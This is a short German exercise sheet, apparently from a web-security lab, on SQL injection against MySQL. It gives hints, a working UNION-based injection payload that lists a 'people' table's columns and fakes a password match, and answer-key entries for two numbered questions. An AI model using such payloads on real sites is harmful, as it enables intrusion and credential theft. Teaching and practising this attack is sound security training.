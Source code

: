 Nun sollen die Spaltennamen der Tabelle ausgelesen werden.

Tipp:
Sie benötigen `GROUP_CONCAT()` und `INFORMATION_SCHEMA.COLUMNS`.

Tipp 2:
https://dev.mysql.com/doc/refman/8.0/en/information-schema-innodb-columns-table.html

Statement:
' AND 1=0 UNION SELECT (SELECT GROUP_CONCAT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'people'), MD5('pass'), 1, 1;--

>>4) In welcher Tabelle vermuten Sie die Login-Daten?<<
=== people

>>5) Welche Spalten enthält die Tabelle? Geben Sie die Spaltennamen in der Reihenfolge der Ausgabe und mit Leerzeichen getrennt an.<<
=== name pass email state
